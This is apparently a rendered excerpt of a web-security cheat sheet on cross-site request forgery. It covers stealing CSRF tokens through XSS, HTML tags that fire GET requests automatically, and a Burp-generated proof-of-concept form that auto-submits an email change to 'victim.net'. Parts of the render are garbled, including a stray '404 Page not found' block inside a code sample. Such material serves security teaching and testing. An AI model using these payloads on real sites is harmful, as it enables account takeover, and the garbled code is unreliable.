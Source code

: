 
### **Exfiltrating CSRF Token**

If a **CSRF token** is being used as **defence** you could try to **exfiltrate it** abusing a [**XSS**](xss-cross-site-scripting/index.html#xss-stealing-csrf-tokens) vulnerability or a [**Dangling Markup**](dangling-markup-html-scriptless-injection/index.html) vulnerability.

### **GET using HTML tags**

```xml
![](http://google.es?param=VALUE)
404 \- Page not found
=====================

The URL you are requesting is no longer available
```

Other HTML5 tags that can be used to automatically send a GET request are:

```html
[...](...)

![](...)

<audio src="...">
  <video src="...">
    
    <video poster="...">
      
      <object data="...">
        <body background="...">
          
          <style>
            body {
              background: url("...");
            }
          </style>
          <bgsound src="...">
            
            </bgsound>
        </body>
      </object>
    </video>
  </video>
</audio>
```

### Form GET request

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>
      history.pushState("", "", "/")
    </script>
    <form method="GET" action="https://victim.net/email/change-email">
      
      
    </form>
    <script>
      document.forms[0].submit()
    </script>
  </body>
</html>
```
